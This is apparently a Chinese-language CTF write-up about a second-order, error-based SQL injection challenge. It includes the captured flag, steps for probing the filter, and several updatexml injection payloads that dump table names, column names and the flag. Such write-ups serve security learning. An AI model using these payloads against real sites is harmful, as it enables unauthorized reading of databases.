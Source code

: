 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-5
---
```


## flag
`flag{fff9faec-e377-4f1d-84e3-66a4cb97ba28}`
## 思路

1. 打开网页，显示可以注册和登录。

   注册是一个写入数据库的过程，登录是查询数据库的过程，所以可以大致推测本题可能存在二次注入。

<img src="images/image-20210106212214557.png" alt="image-20210106212214557" style="zoom:50%;" />

2. 首先测试注册过程是否存在waf，输入如下，会弹出invalid string。

   <img src="images/image-20210106212522917.png" alt="image-20210106212522917" style="zoom:50%;" />

3. 使用bp测试被过滤的字符串，如下：

   <img src="images/image-20210106213526181.png" alt="image-20210106213526181" width="40%;" />

4. username `test\`   然后进入修改密码的页面，可以看到下面的报错提示。

   可以推测后台的sql语句可能为：

   `select * from users where username="" and pwd=""`

   闭合符号为"

<img src="images/image-20210106213702251.png" alt="image-20210106213702251" style="zoom:50%;" />

5. 页面显示了报错信息，说明我们可以尝试报错注入。

   - 获取数据表信息：

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#`

   - 获取列名信息：

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#`

   - 获取flag:

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#`

     `username=peri0d"||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('f')))),1))#`

## 总结

   - 本题的核心是SQL二次注入，是学习SQL二次注入的比较好的例子。
   - 报错型注入
   - 当flag很长时需要两次获取，reverse函数的使用
   - 待完善。。。